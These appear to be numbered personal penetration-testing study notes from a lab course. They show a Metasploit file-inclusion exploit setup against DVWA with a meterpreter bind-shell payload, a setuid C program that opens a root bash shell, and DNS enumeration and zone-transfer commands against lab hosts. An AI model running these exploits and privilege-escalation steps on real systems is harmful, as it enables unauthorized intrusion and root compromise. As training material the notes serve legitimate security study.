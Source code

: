 


Now we need to set a few important options:
- PHPURI: The URI to request where the vulnerable parameter is specified as XXpathXX.
- PATH: The base directory to prepend to the URL.
- RHOST: Remote host
- HEADERS: Cookie containing the PHPSESSID and the security value.




set HEADERS "Cookie:security=low; PHPSESSID=f7c5f19dfdbfca8021190b6d242a94c9"
set PHPURI /?page=XXpathXX
set PATH /dvwa/vulnerabilities/fi/
set RHOST 10.11.1.250
set LHOST 172.16.1.4
set payload php/meterpreter/bind_tcp
run


================================
184
setuid c file


int main(void)
{
setuid(0);
setgid(0);
system("/bin/bash");


}






=================================
185


host command
// find dns servers responsible for a domain name
host -t ns domain.com
// find mail servers for a domain
host -t mx megacorpone.com


//zone transfer
host -l <domain name> <dns server address>


host -l thinc.local 10.11.1.221




=================================
186
check if an argument was giveb to the bash script

